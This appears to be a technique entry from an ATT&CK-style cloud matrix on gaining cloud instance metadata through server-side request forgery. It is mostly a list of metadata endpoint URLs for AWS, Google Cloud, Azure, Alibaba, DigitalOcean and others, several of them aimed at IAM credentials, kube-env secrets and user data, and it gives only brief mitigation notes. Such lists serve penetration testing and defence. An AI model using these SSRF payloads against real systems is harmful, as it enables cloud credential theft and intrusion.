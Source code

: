 # Gain Cloud Metadate by SSRF

---
* **ID**: T1701
* **Tactic**: Initial Access
* **Platform**: AWS、Azure、Google、Alibaba Cloud
* **Required Permissions**: User
* **Data Sources**: Cloud local metadata

---

# Description

# Examples

## AWS 
### Amazon Web Services (No Header Required)
### from http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories
* http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
* http://169.254.169.254/latest/user-data
* http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
* http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
* http://169.254.169.254/latest/meta-data/ami-id
* http://169.254.169.254/latest/meta-data/reservation-id
* http://169.254.169.254/latest/meta-data/hostname
* http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
* http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key

### ECS Task: https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html
* http://169.254.170.2/v2/credentials/

## Google Cloud (Header Sometimes Required)
###  https://cloud.google.com/compute/docs/metadata
###  - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True" on API v1
###  - Most endpoints can be accessed via the v1beta API without a header
* http://169.254.169.254/computeMetadata/v1/
* http://metadata.google.internal/computeMetadata/v1/
* http://metadata/computeMetadata/v1/
* http://metadata.google.internal/computeMetadata/v1/instance/hostname
* http://metadata.google.internal/computeMetadata/v1/instance/id
* http://metadata.google.internal/computeMetadata/v1/project/project-id

### kube-env; thanks to JackMc for the heads up on this (https://hackerone.com/reports/341876)
* http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env
### Google allows recursive pulls 
* http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
### returns root password for Google
* http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/?recursive=true&alt=json

## Digital Ocean (No Header Required)
### https://developers.digitalocean.com/documentation/metadata/
* http://169.254.169.254/metadata/v1.json
* http://169.254.169.254/metadata/v1/ 
* http://169.254.169.254/metadata/v1/id
* http://169.254.169.254/metadata/v1/user-data
* http://169.254.169.254/metadata/v1/hostname
* http://169.254.169.254/metadata/v1/region
* http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

### Packetcloud
* https://metadata.packet.net/userdata

## Azure (Header Required)
### Header: "Metadata: true"
### https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service
### (Old: ) https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/
* http://169.254.169.254/metadata/instance?api-version=2017-04-02
* http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text

## Oracle Cloud (No Header Required)
### https://docs.us-phoenix-1.oraclecloud.com/Content/Compute/Tasks/gettingmetadata.htm
* http://169.254.169.254/opc/v1/instance/

## Alibaba
### https://www.alibabacloud.com/help/faq-detail/49122.htm
* http://100.100.100.200/latest/meta-data/
* http://100.100.100.200/latest/meta-data/instance-id
* http://100.100.100.200/latest/meta-data/image-id

## OpenStack/RackSpace 
### https://docs.openstack.org/nova/latest/user/metadata-service.html
* http://169.254.169.254/openstack	 

## Oracle Cloud
### https://docs.oracle.com/en/cloud/iaas/compute-iaas-cloud/stcsg/retrieving-instance-metadata.html
* http://192.0.0.192/latest/
* http://192.0.0.192/latest/user-data/
* http://192.0.0.192/latest/meta-data/
* http://192.0.0.192/latest/attributes/

## Kubernetes
### Debug Services (https://kubernetes.io/docs/tasks/debug-application-cluster/debug-service/)
* https://kubernetes.default.svc.cluster.local
* https://kubernetes.default

# Mitigation
### Google Cloud
* Deny Http Header X-Forwarded-For 
* Add Header Metadata-Flavor: Google
* curl "http://metadata.google.internal/computeMetadata/v1/instance/tags?wait_for_change=true&last_etag=411261ca6c9e654e" -H "Metadata-Flavor: Google"


# Detection

# References

* http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
* http://docs.openstack.org/admin-guide-cloud/content/section_metadata-service.html
* https://gist.github.com/BuffaloWill/fa96693af67e3a3dd3fb
* https://www.notsosecure.com/exploiting-ssrf-in-aws-elastic-beanstalk/
* https://hackerone.com/reports/401136
